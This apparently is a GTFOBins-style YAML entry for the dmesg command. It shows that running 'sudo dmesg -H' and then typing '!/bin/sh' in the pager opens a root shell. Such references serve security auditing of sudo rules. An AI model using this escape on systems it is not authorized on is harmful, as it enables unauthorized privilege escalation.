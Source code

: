 ```yaml
---
description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  sudo:
    - code: |
        sudo dmesg -H
        !/bin/sh
---
```

